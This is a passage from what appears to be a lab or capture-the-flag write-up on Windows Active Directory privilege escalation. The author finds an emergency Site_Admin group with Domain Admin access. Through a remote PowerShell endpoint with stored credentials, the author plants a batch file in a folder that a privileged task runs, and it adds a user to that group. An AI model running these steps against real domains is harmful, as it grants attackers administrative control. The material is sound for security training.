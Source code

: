 ```powershell
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Site_Admin
The command completed with one or more errors.
```

The comment of the group says that the group is only enabled in emergencies.
Also, it has access to Domain Admin group, which is critical.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group Site_Admin /domain }
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group Site_Admin /domain }
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
The command completed successfully.
```

I put `net group site_admin awallace /add /domain` command to add current user to `site_admin` group.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { Set-Content -Path '\program files\keepmeon\0x7377.bat' -Value 'net group site_admin awallace /add /domain'}


PS C:\Users\jmorgan\Documents> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat '\program files\keepmeon\0x7377.bat'}

net group site_admin awallace /add /domain
```

Then, I waited more than 5 minute as the comment of the script says.
Soon, I can see that `awallace` is added to `site_admins` group..

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group Site_Admin /domain }
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
awallace                 
The command completed successfully.
```
